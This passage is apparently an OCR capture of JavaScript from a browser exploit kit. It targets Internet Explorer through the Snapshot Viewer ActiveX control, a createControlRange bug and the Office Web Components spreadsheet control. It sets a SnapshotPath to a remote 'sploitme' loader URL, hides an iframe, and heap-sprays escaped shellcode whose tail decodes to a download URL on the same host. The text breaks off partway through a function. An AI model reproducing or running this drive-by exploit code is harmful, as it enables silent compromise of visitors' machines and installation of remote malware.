 ```c
				obj=new ActiveXObject('snpvw.Snapshot Viewer Control.1');
				var buf=mycars[x];
				obj.Zoom=0;
				obj.ShowNavigationButtons=false;
				obj.AllowContextMenu=false;
				obj.SnapshotPath='http://sploitme.com.cn/fg/load.php?e=6';
				try{
					obj.CompressedPath=buf;obj.PrintSnapshot();
				var snpelement=document.createElement('iframe');
				snpelement.setAttribute('id','snapiframe');
				snpelement.setAttribute('src','about:blank');
				snpelement.setAttribute('width',1);
				snpelement.setAttribute('height',1);
				snpelement.setAttribute('style','display:none;');
				document.body.appendChild(snpelement);
				setTimeout("document.getElementById('snapiframe').src = 'ldap://';",3000);
	}catch(e){}}}}catch(e){}
	com();
}

function com(){
	try{
		var obj=document.createElement('object');
		document.body.appendChild(obj);
		obj.setAttribute('classid','clsid:EC444CB6-3E7E-4865-B1C3-0DE72EF39B3F');
		if(obj){
			var shcode=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D");
			
			var hbs=0x100000;
			var sss=hbs-(shcode.length*2+0x38);
			var hb=(0x0c0c0c0c-hbs)/hbs;
			var myvar=unescape("%u0C0C%u0C0C");
			var ss=myvar;
			while(ss.length*2<sss){
				ss+=ss;
			}
		ss=ss.substring(0,sss/2);
		var m=new Array();
		for(var i=0;i<hb;i++){
			m[i]=ss+shcode;
		}
		var z=Math.ceil(0x0c0c0c0c);
		z=document.scripts[0].createControlRange().length;
		}
	}catch(e){}
	spreadsheet();
}

function spreadsheet(){
	try{
		var objspread=new ActiveXObject('OWC10.Spreadsheet');
	} catch(e) {}
	
	if(objspread){
		try{
```